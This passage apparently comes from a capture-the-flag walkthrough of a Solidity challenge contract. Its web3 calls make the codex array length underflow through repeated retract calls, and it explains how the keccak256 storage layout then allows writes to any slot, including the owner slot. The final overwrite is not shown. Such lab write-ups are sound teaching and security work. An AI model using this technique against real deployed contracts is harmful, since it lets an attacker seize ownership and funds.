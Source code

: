 to verify that we mapped the variables correctly, let's call some functions
of the contract:

```javascript
await contract.makeContact()
await contract.record("0x000000000000000000000001f2531ff8b7ec8886ce5b48b05ab7894d25ff4bf8")
```

Let's get the storage slots again:
    
```javascript
await web3.eth.getStorageAt(contract.address, 0) // owner + contact
await web3.eth.getStorageAt(contract.address, 1) // codex
```

Storage slot 0 should now have a 1 before the owner address. That means, that the
`contact` variable is set to true.
Storage slot 1 should now have a 1, which represents the length of the `codex` array.

Good :)

Let's call the `retract` function and see what happens:

```javascript
await contract.retract()
await web3.eth.getStorageAt(contract.address, 1) // codex should give 0
await contract.retract()
await web3.eth.getStorageAt(contract.address, 1) // codex should give 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```
Wow, what the hell. The length of the `codex` array is now `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`.
That means we are able to write to the storage anywhere we want :O

But how?

For this we need to understand how the storage layout works for dynamic arrays.
In the code we can see, that contract `owner` and `contact` are sharing slot 0,
since both fit in there together. The length of the `codex` array is stored in
slot 1. To get the first entry of the `codex` array, we need to calculate the
storage slot for the first entry. The first entry is stored at `keccak256(1)`,
where 1 is the storage slot. The second entry of the `codex` array is stored at
`keccak256(1) + 1`, and so on.

Equipped with that knowledge, we can now write to the storage of the contract
and set the owner to our address.

To see that in action, run the following commands:

```javascript
await contract.record("0xDEADBEEF")
```
Calculate the slot where the data is stored:

```javascript
storage_slot = web3.utils.sha3('0x0000000000000000000000000000000000000000000000000000000000000001')
await web3.eth.getStorageAt(contract.address, storage_slot)
```
and you should see the data you just stored.
